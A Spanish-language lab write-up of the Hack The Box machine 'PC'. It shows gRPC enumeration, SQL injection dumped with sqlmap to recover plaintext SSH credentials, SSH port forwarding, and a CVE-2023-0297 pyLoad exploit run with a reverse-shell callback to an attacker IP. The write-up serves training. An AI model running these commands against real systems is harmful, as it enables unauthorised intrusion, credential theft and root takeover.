

PC es una máquina Linux de dificultad fácil que cuenta con un punto final `gRPC` que es vulnerable a la inyección SQL. Después de enumerar y volcar el contenido de la base de datos, las credenciales de texto sin formato conducen al acceso `SSH` a la máquina. Al enumerar los puertos que se ejecutan localmente, se revela una versión obsoleta del servicio `pyLoad`, que es susceptible a la ejecución remota de código (RCE) previa a la autenticación a través de `CVE-2023-0297`. Como el servicio lo ejecuta `root`, explotar esta vulnerabilidad conduce a privilegios completamente elevados.

# Enumeración

Indicamos con la enumeración de los puertos abiertos de la maquina victima.

```c
❯ nmap -p- --open --min-rate 5000 -Pn -n -vvv 10.10.11.214 -oG allportsScan

PORT      STATE SERVICE REASON
22/tcp    open  ssh     syn-ack
50051/tcp open  unknown syn-ack

```

Luego de obtener los puertos abiertos podemos enumerar cada uno de los servicios y versiones que se ejecutan en los puertos abiertos

```c
❯ nmap -p22,50051 -sC -sV 10.10.11.214 -vvv -Pn -oN servicesScan

PORT      STATE SERVICE REASON  VERSION
22/tcp    open  ssh     syn-ack OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 91:bf:44:ed:ea:1e:32:24:30:1f:53:2c:ea:71:e5:ef (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQChKXbRHNGTarynUVI8hN9pa0L2IvoasvTgCN80atXySpKMerjyMlVhG9QrJr62jtGg4J39fqxW06LmUCWBa0IxGF0thl2JCw3zyCqq0y8+hHZk0S3Wk9IdNcvd2Idt7SBv7v7x+u/zuDEryDy8aiL1AoqU86YYyiZBl4d2J9HfrlhSBpwxInPjXTXcQHhLBU2a2NA4pDrE9TxVQNh75sq3+G9BdPDcwSx9Iz60oWlxiyLcoLxz7xNyBb3PiGT2lMDehJiWbKNEOb+JYp4jIs90QcDsZTXUh3thK4BDjYT+XMmUOvinEeDFmDpeLOH2M42Zob0LtqtpDhZC+dKQkYSLeVAov2dclhIpiG12IzUCgcf+8h8rgJLDdWjkw+flh3yYnQKiDYvVC+gwXZdFMay7Ht9ciTBVtDnXpWHVVBpv4C7efdGGDShWIVZCIsLboVC+zx1/RfiAI5/O7qJkJVOQgHH/2Y2xqD/PX4T6XOQz1wtBw1893ofX3DhVokvy+nM=
|   256 84:86:a6:e2:04:ab:df:f7:1d:45:6c:cf:39:58:09:de (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBPqhx1OUw1d98irA5Ii8PbhDG3KVbt59Om5InU2cjGNLHATQoSJZtm9DvtKZ+NRXNuQY/rARHH3BnnkiCSyWWJc=
|   256 1a:a8:95:72:51:5e:8e:3c:f1:80:f5:42:fd:0a:28:1c (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIBG1KtV14ibJtSel8BP4JJntNT3hYMtFkmOgOVtyzX/R
50051/tcp open  unknown syn-ack
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port50051-TCP:V=7.94SVN%I=7%D=7/24%Time=66A0BB61%P=x86_64-pc-linux-gnu%
SF:r(NULL,2E,"\0\0\x18\x04\0\0\0\0\0\0\x04\0\?\xff\xff\0\x05\0\?\xff\xff\0
SF:\x06\0\0\x20\0\xfe\x03\0\0\0\x01\0\0\x04\x08\0\0\0\0\0\0\?\0\0")%r(Gene
SF:ricLines,2E,"\0\0\x18\x04\0\0\0\0\0\0\x04\0\?\xff\xff\0\x05\0\?\xff\xff
SF:\0\x06\0\0\x20\0\xfe\x03\0\0\0\x01\0\0\x04\x08\0\0\0\0\0\0\?\0\0")%r(Ge
SF:tRequest,2E,"\0\0\x18\x04\0\0\0\0\0\0\x04\0\?\xff\xff\0\x05\0\?\xff\xff
SF:\0\x06\0\0\x20\0\xfe\x03\0\0\0\x01\0\0\x04\x08\0\0\0\0\0\0\?\0\0")%r(HT
SF:TPOptions,2E,"\0\0\x18\x04\0\0\0\0\0\0\x04\0\?\xff\xff\0\x05\0\?\xff\xf
SF:f\0\x06\0\0\x20\0\xfe\x03\0\0\0\x01\0\0\x04\x08\0\0\0\0\0\0\?\0\0")%r(R
SF:TSPRequest,2E,"\0\0\x18\x04\0\0\0\0\0\0\x04\0\?\xff\xff\0\x05\0\?\xff\x
SF:ff\0\x06\0\0\x20\0\xfe\x03\0\0\0\x01\0\0\x04\x08\0\0\0\0\0\0\?\0\0")%r(
SF:RPCCheck,2E,"\0\0\x18\x04\0\0\0\0\0\0\x04\0\?\xff\xff\0\x05\0\?\xff\xff
SF:\0\x06\0\0\x20\0\xfe\x03\0\0\0\x01\0\0\x04\x08\0\0\0\0\0\0\?\0\0")%r(DN
SF:SVersionBindReqTCP,2E,"\0\0\x18\x04\0\0\0\0\0\0\x04\0\?\xff\xff\0\x05\0
SF:\?\xff\xff\0\x06\0\0\x20\0\xfe\x03\0\0\0\x01\0\0\x04\x08\0\0\0\0\0\0\?\
SF:0\0")%r(DNSStatusRequestTCP,2E,"\0\0\x18\x04\0\0\0\0\0\0\x04\0\?\xff\xf
SF:f\0\x05\0\?\xff\xff\0\x06\0\0\x20\0\xfe\x03\0\0\0\x01\0\0\x04\x08\0\0\0
SF:\0\0\0\?\0\0")%r(Help,2E,"\0\0\x18\x04\0\0\0\0\0\0\x04\0\?\xff\xff\0\x0
SF:5\0\?\xff\xff\0\x06\0\0\x20\0\xfe\x03\0\0\0\x01\0\0\x04\x08\0\0\0\0\0\0
SF:\?\0\0")%r(SSLSessionReq,2E,"\0\0\x18\x04\0\0\0\0\0\0\x04\0\?\xff\xff\0
SF:\x05\0\?\xff\xff\0\x06\0\0\x20\0\xfe\x03\0\0\0\x01\0\0\x04\x08\0\0\0\0\
SF:0\0\?\0\0")%r(TerminalServerCookie,2E,"\0\0\x18\x04\0\0\0\0\0\0\x04\0\?
SF:\xff\xff\0\x05\0\?\xff\xff\0\x06\0\0\x20\0\xfe\x03\0\0\0\x01\0\0\x04\x0
SF:8\0\0\0\0\0\0\?\0\0")%r(TLSSessionReq,2E,"\0\0\x18\x04\0\0\0\0\0\0\x04\
SF:0\?\xff\xff\0\x05\0\?\xff\xff\0\x06\0\0\x20\0\xfe\x03\0\0\0\x01\0\0\x04
SF:\x08\0\0\0\0\0\0\?\0\0")%r(Kerberos,2E,"\0\0\x18\x04\0\0\0\0\0\0\x04\0\
SF:?\xff\xff\0\x05\0\?\xff\xff\0\x06\0\0\x20\0\xfe\x03\0\0\0\x01\0\0\x04\x
SF:08\0\0\0\0\0\0\?\0\0")%r(SMBProgNeg,2E,"\0\0\x18\x04\0\0\0\0\0\0\x04\0\
SF:?\xff\xff\0\x05\0\?\xff\xff\0\x06\0\0\x20\0\xfe\x03\0\0\0\x01\0\0\x04\x
SF:08\0\0\0\0\0\0\?\0\0")%r(X11Probe,2E,"\0\0\x18\x04\0\0\0\0\0\0\x04\0\?\
SF:xff\xff\0\x05\0\?\xff\xff\0\x06\0\0\x20\0\xfe\x03\0\0\0\x01\0\0\x04\x08
SF:\0\0\0\0\0\0\?\0\0");
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```

## gRPC 

Enumerando el puerto 50051 encontraremos que se ejecuta el servicio `gRPC`, podemos encontrar de como explotarlo en los siguientes post:

- [https://exploit-notes.hdks.org/exploit/network/grpc-pentesting/](https://exploit-notes.hdks.org/exploit/network/grpc-pentesting/).
- [https://medium.com/@ibm_ptc_security/grpc-security-series-part-3-c92f3b687dd9](https://medium.com/@ibm_ptc_security/grpc-security-series-part-3-c92f3b687dd9).

Podemos hacer uso de la herramienta de `grpcurl` para enumerar

```c
❯ grpcurl -plaintext 10.10.11.214:50051 list
```



```c
❯ grpcurl -plaintext 10.10.11.214:50051 list SimpleApp
```


Luego de enumerar con `grpcurl`, usaremos otra herramienta que nos permitirá ver gráficamente el servicio.

```c
❯ git clone https://github.com/fullstorydev/grpcui.git
```

```c
❯ go run ./cmd/grpcui/grpcui.go -plaintext 10.10.11.214:50051
```



Logramos conectarnos de manera exitosa



Vemos 3 métodos, login, registrarnos y para obtener información.

### Login



### Register



### Login



### Get info





# shell - sau
## SQL injection

Enumerando un poco podemos encontrar que se tiene una vulnerabilidad de sqlinjection.





Hacemos uso de burpsuite para tener mas control de la data que se solicita 



Copiaremos toda la data que intercepto burp para copiarla a un archivo y con ayuda de `sqlmap` podemos enumerar la base de datos.
## sqlmap

Podemos revisar el siguiente post para saber de como hacer sql injection con data en formato json.

- [https://security.stackexchange.com/questions/248524/how-to-configure-sqlmap-to-attack-json-parameter](https://security.stackexchange.com/questions/248524/how-to-configure-sqlmap-to-attack-json-parameter)
```c
❯ sqlmap -r request.txt -p id --level 5 --risk 3 --batch --dbs
```

Enumerando las base de datos que existe observamos que al parecer no las puede enumerar.



Entonces precedemos a enumerar las tablas de las base de datos, que si podemos enumerarlas.

```c
❯ sqlmap -r request.txt -p id --level 5 --risk 3 --batch --tables
```



Observamos que tenemos dos tablas y de las cuales también enumeraremos el contenido.

```c
❯ sqlmap -r request.txt -p id --level 5 --risk 3 --batch --tables --dump
```



Podemos obtener unas credenciales que son:

```c
sau :  HereIsYourPassWord1431  
```

Estas credenciales son validas con el servicio `ssh` 

```c
❯ ssh sau@10.10.11.214
```



# shell- root

Enumerando un poco las conexiones observaremos que el puerto `8000` esta abierto de manera interna



Para ver el contenido de dicho puerto debemos de hacer port forwarning, esto lo podemos hacer con el mismo ssh con el mismo comando.

```c
❯ ssh sau@10.10.11.214 -L 8000:127.0.0.1:8000
```

## pyLoad

Observamos que se tiene un servicio de `pyLoad`.



Buscando un poco en internet podremos encontrar con una vulnerabilidad que permite RCE en el servicio.

 - [CVE-2023-0297](https://github.com/JacobEbben/CVE-2023-0297)

Ejecutamos el exploit:

```c
❯ python3 exploit.py -t http://127.0.0.1:8000 -I 10.10.14.55 -P 443
```

Antes debemos de ponernos a la escucha y debemos de obtener una shell como el usuario root

```c
❯ ncat -nvlp 443
```



